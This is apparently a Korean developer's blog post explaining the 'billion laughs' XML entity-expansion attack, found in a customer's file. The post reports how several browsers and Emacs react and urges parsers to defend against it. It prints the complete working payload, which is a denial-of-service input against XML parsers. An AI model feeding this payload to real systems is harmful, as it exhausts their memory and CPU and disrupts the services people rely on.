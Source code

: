 title: 교활한 XML
date: 2011-04-14
tags: 보안

---
XML 파일이 프로그램을 죽일 수도 있다는 생각은 하지 못했다. XML은 그저 텍스트일 뿐이고 프로그램은 그저 파일을 읽어서 처리할 뿐인데... 그런데 다음과 같은 파일을 보고서야 그럴 수도 있다는 것을 알게 되었다.
<!-- more -->

```
<?xml version="1.0"?>
<!DOCTYPE billion [
<!ELEMENT billion (#PCDATA)>
<!ENTITY laugh0 "ha">
<!ENTITY laugh1 "&laugh0;&laugh0;">
<!ENTITY laugh2 "&laugh1;&laugh1;">
<!ENTITY laugh3 "&laugh2;&laugh2;">
<!ENTITY laugh4 "&laugh3;&laugh3;">
<!ENTITY laugh5 "&laugh4;&laugh4;">
<!ENTITY laugh6 "&laugh5;&laugh5;">
<!ENTITY laugh7 "&laugh6;&laugh6;">
<!ENTITY laugh8 "&laugh7;&laugh7;">
<!ENTITY laugh9 "&laugh8;&laugh8;">
<!ENTITY laugh10 "&laugh9;&laugh9;">
<!ENTITY laugh11 "&laugh10;&laugh10;">
<!ENTITY laugh12 "&laugh11;&laugh11;">
<!ENTITY laugh13 "&laugh12;&laugh12;">
<!ENTITY laugh14 "&laugh13;&laugh13;">
<!ENTITY laugh15 "&laugh14;&laugh14;">
<!ENTITY laugh16 "&laugh15;&laugh15;">
<!ENTITY laugh17 "&laugh16;&laugh16;">
<!ENTITY laugh18 "&laugh17;&laugh17;">
<!ENTITY laugh19 "&laugh18;&laugh18;">
<!ENTITY laugh20 "&laugh19;&laugh19;">
<!ENTITY laugh21 "&laugh20;&laugh20;">
<!ENTITY laugh22 "&laugh21;&laugh21;">
<!ENTITY laugh23 "&laugh22;&laugh22;">
<!ENTITY laugh24 "&laugh23;&laugh23;">
<!ENTITY laugh25 "&laugh24;&laugh24;">
<!ENTITY laugh26 "&laugh25;&laugh25;">
<!ENTITY laugh27 "&laugh26;&laugh26;">
<!ENTITY laugh28 "&laugh27;&laugh27;">
<!ENTITY laugh29 "&laugh28;&laugh28;">
<!ENTITY laugh30 "&laugh29;&laugh29;">
]>
<billion>&laugh30;</billion>
```

우리회사 프로그램이 제대로 처리하지 못한다며 고객이 보내준 XML 파일이다. 이 파일을 Chrome이나 Firefox와 같은 브라우저에서 열면 즉각 에러를 표시한다.

![](chrome.png)

그러나 IE8에서 열면 브라우저 화면에 아무것도 나타나지 않지만 CPU를 계속 사용하고 메모리도 계속 늘어난다. 메모리 사용량이 거의 1GB가까지 늘어나는 것을 보고 죽여야 했다. IE8도 이 XML 파일을 제대로 처리하지 못하는 것이다.

파일 내용을 보면 `laugh0` ~ `laugh30`까지 31개의 엔터티를 정의하는데 `laugh0`은 "ha"로 정의되어 있고 나머지 엔터티는 이전 엔터티를 두번 참조하는 것으로 정의되어 있다. `laugh1`은 `laugh0`이 두번 나오는 것이고, `laugh2`는 `laugh1`이 두번 나오는 것이다. 이런 식으로 `laugh30`까지 간다. 따라서 엔터티를 모두 확장해보면...

```
laugh0 --> ha
laugh1 --> haha
laugh2 --> hahahaha
laugh3 --> hahahahahahahaha
laugh4 --> hahahahahahahahahahahahahahahaha
laugh5 --> hahahahahahahahahahahahahahahahahahahahahahahahahahahahahahahaha
...
```
`<billion>&laugh30;</billion>`을 표시하려면 "ha"를 2<sup>30</sup>번 표시해야 한다. 2<sup>30</sup>이면 1G에 해당하는 크기다. "ha"를 2바이트라고 하면 이 XML 문서를 표시하기 위해 2GB 길이의 문자열을 표시해야 하는 것이다.

이 교활한 XML 파일을 읽고는 프로그램이 죽어버리거나 제대로 처리하지 못하는 것도 이해할만하지만 잘 작성된 프로그램이라면 그러지 말아야 한다. Chrome이나 Firefox는 이런 문제가 생길 수 있다는 것을 즉각 알아채고 에러 메시지를 표시한다. 잘 작성된 프로그램이다. IE8은 그렇지 못하다.

이 XML 파일을 보고서야 XML 문서로 프로그램을 공격할 수 있다는 걸 알게 되었고, 프로그램을 작성할 때도 이런 공격에 대비를 해야 한다는 것도 알게 되었다.

## 업데이트 (2014-11-12)
* 윈도우7 IE11에서 위 XML 파일을 열어보면 예전의 IE8 처럼 삽질을 하지 않는다. 그저 조용히 맨 아랫줄 `<billion>&laugh30;</billion>`을 제거하고 아무런 에러 메시지도 표시하지 않는다. 브라우저가 멈춰버리지는 않지만 친절한 UX라 할 수는 없다.
* Emacs(24.4.1) 에디터에서 위 XML 파일을 열면 응답하지 않는 상태가 된다. XML 소스를 scratch 버퍼에 붙여넣는 것은 되지만 이를 XML 파일로 저장하려 하면 역시 응답하지 않는 상태가 된다. 프로세스가 CPU를 계속 사용하는 것으로 보아 뭔가 삽질을 하고 있는게 분명하다.
